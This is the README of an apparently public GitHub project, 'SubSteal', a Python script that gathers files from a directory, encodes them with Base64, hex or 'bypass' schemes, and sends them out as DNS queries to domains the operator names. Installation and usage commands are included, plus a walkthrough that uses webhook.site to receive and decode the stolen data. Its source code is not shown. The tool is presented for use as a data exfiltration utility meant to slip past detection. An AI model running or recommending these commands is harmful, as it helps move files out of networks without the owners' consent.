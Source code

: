 # SubSteal

## Description
SubSteal is a Python script designed to send data to subdomains using various encryption methods. This script can be used to distribute data across multiple domains and query them using different DNS record types.

## Features
- Collects files from a specified directory.
- Encodes data using Base64, hexadecimal, and custom bypass methods.
- Sends data to subdomains using DNS queries.
- Supports multiple DNS query modes: TXT, A, NS, and RANDOM.

## Requirements
- Python 3.x
- `os`, `subprocess`, `base64`, `json`, `binascii`, `time`, `argparse`, `random`, `signal`, `sys` modules (standard Python libraries)
- dig

## Installation
Clone the repository:
```
git clone https://github.com/mel4mi/SubSteal
cd SubSteal
python3 SubSteal.py
```



# Usage
Run the script with the required arguments:

Arguments:
```
--domains       #List of domains to distribute data across (required).
--encryption    #Encryption method to use (xxd, low_bypass, medium_bypass) (required).
--mode          #Query mode (TXT, A, NS, RANDOM). Default is TXT.
```

Example Usage:
```
python3 SubSteal.py --domains example.com example2.com --encryption xxd
```
```
python3 SubSteal.py --domains example.com example2.com --encryption low_bypass
```
```
python3 SubSteal.py --domains example.com --encryption xxd
```
```
python3 SubSteal.py --domains example.com --encryption xxd --mode RANDOM
```
Try on WebHook:
1. Go [Webhook](https://webhook.site/)
2. Copy "Your unique DNS name" Url
3. Run the command:
 ```
python3 --domains WebhookDomain --encryption xxd
```

Client Side:

![Foto](photos/1.png)

Server Side:

![Foto](photos/3.png)

4. Collect data and decrypt

![Foto](photos/2.png)
